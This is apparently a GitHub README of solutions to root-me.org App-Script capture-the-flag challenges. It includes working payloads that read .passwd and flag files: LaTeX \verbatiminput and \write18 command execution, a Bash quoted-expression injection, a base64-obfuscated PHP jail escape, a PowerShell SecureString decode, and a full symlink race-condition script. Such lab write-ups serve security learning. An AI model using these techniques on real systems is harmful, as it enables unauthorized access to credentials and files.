 # root-me.org-payloads - App Script 

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 

First create a latex file :

```bash
vi /tmp/pwned.tex
```
Then copy this payload on the file :

```LaTex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```
Then execute the script passing this latex file in argument :
```bash
./setuid-wrapper /tmp/pwned.tex
```

Then retrieve the output pdf with scp :
```bash
scp app-script-ch23@challenge02.root-me.org:/tmp/YOUR_OUPUT_FILE /~
```

The flag should be printed on it

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
Do the same as the above but in your latex file copy this payload :

```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```

## Powershell - Basic jail
[PowerShell - Basic jail challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-Basic-jail)

### Payload
Just type 
```Powershell
Content
```
Then in the prompter type
```bash 
./.passwd
```
Then enter and the flag will be prompt 

### Bash - quoted expression injection
[Bash - quoted expression injection](https://www.root-me.org/fr/Challenges/App-Script/Bash-quoted-expression-injection)

### Payload
```bash
'x[$(echo `cat .passwd`))]'
```
You will get an error message with the flag inside

### PHP - Jail
[PHP - Jail](https://www.root-me.org/fr/Challenges/App-Script/PHP-Jail)

### Paylaod 

First we can get the source code of the script with the following command :
```php 
echo show_source(getenv(SHELL));
```

After sanitizing it we get the following script :

![Source code of the jail](https://image.noelshack.com/fichiers/2024/01/1/1704119452-screenshot-from-2024-01-01-15-30-39.png)

We can see that many php functions are blocked by the regex, with this command we can get the list of all the functions available :
```php
print_r(get_defined_functions())
```

We can see that [base64](https://www.php.net/manual/en/function.base64-decode.php) functions are available as well as [implode](https://www.php.net/manual/en/function.implode.php) and [glob](https://www.php.net/manual/en/function.glob.php). Let's try this command :

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/1/1704120632-screenshot-from-2024-01-01-15-50-21.png)

In this command we pass the value of '/challenge/app-script/ch13/*' encoded in base64 to an array then with the function implode we join the array into a string and we do a glob.
The result of this command will be :
```php 
print_r(glob(/challenge/app-script/ch13/*,GLOB_ONLYDIR));
```

We can see that there is a subfolder /passwd. We do the same command in the /passwd subfolder :
```php
print_r(glob(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy4q)))))
```

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/2/1704201285-screenshot-from-2024-01-02-14-14-02.png)

We can see that there is a .passwd file so we just now have to open it with the following command:

```php 
echo show_source(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy5wYXNzd2Q))));
```

Wich will be interpreted as :
```php
echo show_source(/challenge/app-script/ch13/passwd/.passwd);
```
### BASH - Race condition
[BASH - Race condition](https://www.root-me.org/fr/Challenges/App-Script/Bash-race-condition)

### Payload

First create a file in /tmp folder :

```bash
vi /tmp/pwned.sh
```
Then give it the rights :
```bash
chmod u+x /tmp/pwned.sh
```
 
Then copy the following script in the file :
```bash
#!/bin/bash

DIRECTORY="/tmp/$PPID/$1"
echo "Checking in: $DIRECTORY"

while :; do
    if [ -d "$DIRECTORY" ]; then
        if [ "$(ls -A "$DIRECTORY")" ]; then
            DIR_PATTERN="tmp.*"
            FOUND_DIRS=$(find "$DIRECTORY" -type d -name "$DIR_PATTERN")

            if [ -n "$FOUND_DIRS" ]; then 
                kill -SIGSTOP $1
                echo -n "data" > $FOUND_DIRS/pwned_file
                kill -SIGCONT $1
                ln -sf ~/.passwd $FOUND_DIRS/pwned_file
                while : ; do
                    kill -SIGSTOP $1
                    unlink $FOUND_DIRS/pwned_file
                    echo -n "data" > $FOUND_DIRS/pwned_file
                    kill -SIGCONT $1
                    ln -sf ~/.passwd $FOUND_DIRS/pwned_file
                    [[ -e "$FOUND_DIRS" ]] || break
                done
                break
            else
                echo "No directories found matching pattern '$DIR_PATTERN' in $DIRECTORY."
            fi
        else
            echo "Directory $DIRECTORY exists but is empty."
        fi
    else
        echo "Directory $DIRECTORY does not exist."
    fi
done
```

This scipts do a infinite loop and monitor the directories created by the challenge script, when he found a directory in /tmp that matchs he creates a symlink to $HOME/.passwd
in order to do a race condition exploit on this command of the challenge script :
```bash 
find "$temp_dir" -type f -size 4c -exec cat {} + 
```

As stated here [Race condition with exec](https://www.gnu.org/software/findutils/manual/html_node/find_html/Race-Conditions-with-_002dexec.html)

Then lauch it like this :
```bash
~/wrapper & /tmp/pwned.sh $!
```

Where $! is the pid of the processus ~/wrapper
At the moment, the race is not always won by the script so relaunch it until you have a valid flag


